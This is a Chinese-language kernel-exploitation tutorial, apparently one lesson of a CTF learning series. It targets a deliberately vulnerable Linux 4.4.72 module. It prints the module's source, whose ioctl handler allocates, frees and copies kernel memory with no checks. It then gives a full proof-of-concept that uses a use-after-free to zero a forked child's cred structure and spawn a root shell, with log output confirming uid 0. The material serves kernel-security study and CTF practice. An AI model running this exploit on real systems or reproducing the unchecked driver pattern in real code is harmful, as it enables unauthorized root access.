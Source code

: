 # how2kernel————第七节UAF修改cred

> 内核版本：Linux4.4.72
>
> 文件：[heap_cred.tar](https://raw.githubusercontent.com/fangdada/kernelPWN/master/how2kernel/06UAF_cred/UAF_cred.tar)

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>同样用了[jinyu00](https://gitee.com/hac425/kernel_ctf)的例子，这题跟heap_bof那题基本一样，只是不同之处就是这题的利用方式从修改tty_operations变成了直接修改cred，跟上个例子一样，直接把一系列id都覆盖为0就行了。怎么修改呢？UAF，我们都知道了heap_bof那个例子漏洞特别多，无论是溢出还是直接编辑都可以，那么怎么通过修改堆块来修改cred呢？那就是**让cred结构体变成堆块**！</font></br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>当**fork一个子进程时，内核会给cred分配空间，也就是分配一个0xa8大小的堆块**，我们又知道slub算法会向上取整，除了**两个特殊的组，0xC0和0x60，**也就是说fork一个子进程时会分配一个0xC0大小的空间给他，那么通过UAF我们这不就是把cred搞到手了吗？不多说，自己看代码，比较简单的：</font></br>

**heap_bof.c**

```C
#include <linux/module.h>
#include <linux/types.h>
#include <linux/kernel.h>
#include <linux/fs.h>
#include <linux/errno.h>
#include <linux/cdev.h>
#include <asm/uaccess.h>
#include <linux/device.h>
#include<linux/slab.h>
#include<linux/string.h>

struct class *bof_class;
struct cdev cdev;
char *p;
int bof_major=248;

char *ptr[40];


struct param
{
    size_t len;
    char* buf;
    unsigned long idx;
};

long bof_ioctl(struct file *filp, unsigned int cmd, unsigned long arg)
{

    struct param* p_arg;
    p_arg = (struct param*)arg;
    int retval = 0;
    switch (cmd) {
        case 9:
            copy_to_user(p_arg->buf, ptr[p_arg->idx], p_arg->len);
            printk("copy_to_user: 0x%x\n", *(long *)ptr[p_arg->idx]);
            break;
        case 8:
            copy_from_user(ptr[p_arg->idx], p_arg->buf, p_arg->len);
            break;
        case 7:
            kfree(ptr[p_arg->idx]);
            printk("free: 0x%p\n", ptr[p_arg->idx]);
            break;
        case 5:
            ptr[p_arg->idx] = kmalloc(p_arg->len, GFP_KERNEL);
            printk("alloc: 0x%p, size: %2x\n", ptr[p_arg->idx], p_arg->len);
            break;

        default:
            retval = -1;
            break;
    }

    return retval;
}

static const struct file_operations bof_fops = {
    .owner = THIS_MODULE,
    .unlocked_ioctl = bof_ioctl,
};

static int bof_init(void)
{
    
    dev_t devno = MKDEV(bof_major, 0);
    int result;

    if (bof_major)
        result = register_chrdev_region(devno, 1, "bof");
    else{
        result = alloc_chrdev_region(&devno, 0, 1, "bof");
        bof_major = MAJOR(devno);
    }
    printk("bof_major /dev/bof: %d\n", bof_major);

    if (result < 0)
        return result;

    bof_class = class_create(THIS_MODULE, "bof");
    device_create(bof_class, NULL, devno, NULL, "bof");

    cdev_init(&cdev, &bof_fops);
    cdev.owner = THIS_MODULE;
    cdev_add(&cdev, devno, 1);
    return 0;
}

static void bof_exit(void)
{
    cdev_del(&cdev);
    device_destroy(bof_class, MKDEV(bof_major, 0));
    class_destroy(bof_class);
    unregister_chrdev_region(MKDEV(bof_major, 0), 1);
    printk("bof exit success\n");
}

MODULE_AUTHOR("exp_ttt");
MODULE_LICENSE("GPL");

module_init(bof_init);
module_exit(bof_exit);
```

**poc.c**

```C
#include <stdio.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/ioctl.h>
struct param
{
    size_t len;
    char* buf;
    unsigned long idx;
};
int main(void)
{
    int fds[10];
    int ptmx_fds[0x100];
    char buf[8];
    int fd;
    for (int i = 0; i < 10; ++i)
    {
        fd = open("/dev/bof", O_RDWR);
        if (fd == -1) {
            printf("open bof device failed!\n");
            return -1;
        }
        fds[i] = fd;
    }
    struct param p;
    p.len = 0xa8;
    p.buf = malloc(p.len);

    for (int i = 0; i < 10; ++i)
    {
        p.idx = 1;
        ioctl(fds[0], 5, &p);  // malloc
    }
    printf("clear heap done\n");

    for (int i = 0; i < 10; ++i)
    {
        p.idx = i;
        ioctl(fds[i], 5, &p);  // malloc
    }
    p.idx = 5;
    ioctl(fds[5], 7, &p); // free
    int now_uid;

    int pid = fork();
    if (pid < 0) {
        perror("fork error");
        return 0;
    }
    p.idx = 4;
    p.len = 0xc0 + 0x30;
    memset(p.buf, 0, p.len);
    ioctl(fds[4], 8, &p);    
    if (!pid) {
        now_uid = getuid();
        printf("uid: %x\n", now_uid);
        if (!now_uid) {
            // printf("get root done\n");

            system("/bin/sh");
        } else {
            // puts("failed?");

        }
    } else {
        wait(0);
    }
    getchar();
    return 0;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>最终效果如下：</font></br>

```shell
/mytest # ./makeuser.sh 
[    3.857858] bof_major /dev/bof: 248
passwd: unknown uid 0
/mytest $ ./poc
[    4.843015] alloc: 0xffff880000a20a80, size: a8
[    4.843879] alloc: 0xffff880000a20b40, size: a8
[    4.844008] alloc: 0xffff880000a51000, size: a8
[    4.844110] alloc: 0xffff880000a510c0, size: a8
[    4.844231] alloc: 0xffff880000a51180, size: a8
[    4.844336] alloc: 0xffff880000a51240, size: a8
[    4.844435] alloc: 0xffff880000a51300, size: a8
[    4.844500] alloc: 0xffff880000a513c0, size: a8
[    4.844564] alloc: 0xffff880000a51480, size: a8
[    4.844627] alloc: 0xffff880000a51540, size: a8
clear heap done
[    4.847132] alloc: 0xffff880000a516c0, size: a8
[    4.847358] alloc: 0xffff880000a51780, size: a8
[    4.847472] alloc: 0xffff880000a51840, size: a8
[    4.847573] alloc: 0xffff880000a51900, size: a8
[    4.847685] alloc: 0xffff880000a519c0, size: a8
[    4.847795] alloc: 0xffff880000a51a80, size: a8
[    4.847903] alloc: 0xffff880000a51b40, size: a8
[    4.848011] alloc: 0xffff880000a51c00, size: a8
[    4.848783] alloc: 0xffff880000a51cc0, size: a8
[    4.849085] alloc: 0xffff880000a51d80, size: a8
[    4.849508] free: 0xffff880000a51a80
uid: 0
/mytest # 
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>（因为这不是真实环境，我看到内存碎片比较少之后就把clear heap目的的循环次数减小了。）</font></br>
